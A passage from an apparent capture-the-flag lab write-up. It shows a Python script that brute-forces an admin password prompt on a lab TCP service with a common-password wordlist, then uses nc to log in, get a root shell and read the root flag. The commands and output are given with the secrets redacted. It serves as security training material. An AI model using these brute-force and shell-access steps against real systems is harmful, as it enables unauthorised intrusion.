 ```python title="find_endpoint.py"
    if len(sys.argv) != 4:
        print("Usage: python find_endpoint.py <HOST> <PORT> <WORDLIST_PATH>")
        sys.exit(1)
    
    host = sys.argv[1]
    port = int(sys.argv[2])
    wordlist_path = sys.argv[3]
    
    wordlist = open(wordlist_path, 'r').read().splitlines()
    sock = create_socket_connection(host, port)
    brute_force(sock, wordlist)
```

```bash
┌──(root㉿kali)-[~/Desktop]
└─# python3 find_endpoint.py 10.10.43.86 8000 "/usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt"
Trying 123456.... Got => Password:
Trying password.... Got => Password:
Trying 12345678.... Got => Password:
Trying 1234.... Got => Password:
Trying 12345.... Got => Password:
Trying dragon.... Got => Password:
Trying qwerty.... Got => Password:
Trying 696969.... Got => Password:
Trying mustang.... Got => Password:
Trying letmein.... Got => Password:
Trying baseball.... Got => Password:
Trying master.... Got => Password:
Trying michael.... Got => Password:
Trying football.... Got => Password:
Trying shadow.... Got => Password:
Trying monkey.... Got => Password:
Trying [REDACTED].... Got => Password:
Trying pass.... Got => Welcome Admin!!! Type "shell" to beginPassword:
Trying fuckme.... Got => Password:
Trying 6969.... Got => Password:

```

It appears that a successful password attempt triggers a Welcome admin message on the following try, confirming the previous password was correct.

Manually inputting the admin endpoint with the discovered password grants us a root shell, allowing us to retrieve the flag

````bash
┌──(root㉿kali)-[~/Desktop]
└─# nc 10.10.43.86 8000                                                                                        
admin
Password:
[****REDACTED****]
Welcome Admin!!! Type "shell" to begin
shell
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
b******************************1
# 
```
